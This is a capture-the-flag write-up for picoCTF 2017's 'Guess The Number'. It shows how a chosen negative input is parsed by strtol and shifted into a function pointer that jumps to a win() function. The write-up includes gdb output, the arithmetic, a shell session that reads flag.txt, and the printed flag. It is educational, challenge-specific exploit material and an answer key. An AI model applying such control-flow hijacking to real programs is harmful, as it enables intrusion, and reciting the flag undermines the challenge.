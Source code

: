 ### Guess The Number - 75 points

> Just a simple number-guessing game. How hard could it be? Binary Source. Connect on shell2017.picoctf.com:20545.

Hint:
> * What is the program doing with your input number?
> * strtol checks for overflow, but it does allow negative numbers...

We are presented with a piece of code, that has a function called win, that gives us a shell.
```
void win(void) {
    printf("Congratulations! Have a shell:\n");
    system("/bin/sh -i");
}
```
We know we have to overflow, but what do we need to write?
The main function does this:
```
char buf[32] = "";
...
scanf("%32s", buf);
val = strtol(buf, NULL, 10);
...
val >>= 4;
((void (*)(void))val)();
```
So, the function converts our input into a long (strtol), shifts 4 bytes to the right and creates a function pointer with the result.
Logically, we want this result to be the address of the win function.
Using gdb, we can print it by:
```
(gdb) p win                                                                                       
$1 = {<text variable, no debug info>} 0x804852b <win>  
```
Let's reverse the operations so we can get to the real input:
For that, we need to shift our address 4 bytes to the left.
We can use this online calculator:
http://www.miniwebtool.com/bitwise-calculator/bit-shift/
The operation will give us the following:
```
hex: 804852b0
decimal: 2152223408
```
Now, as the hint says, we need to underflow the the strtol function, so it gives us that value.
The biggest value a int can have is:
```
2147483647
```
Now we do the following operations:
```
2152223408 - 2147483647 = 4739761
4739761 - 2147483647 = -2142743886
```
Finally, we pass that value to the program, which gives us the flag:
```
Welcome to the number guessing game!
I'm thinking of a number. Can you guess it?
Guess right and you get a shell!
Enter your number: -2142743886                       
You entered -2142743886. Let's see if it was right...
Congratulations! Have a shell:
/bin/sh: 0: can't access tty; job control turned off
$ ls
flag.txt
guess_num
xinetd_wrapper.sh
$ cat flag.txt
181db5615729e295ea7a5d5773c3829b
```

Flag:

```
181db5615729e295ea7a5d5773c3829b
```
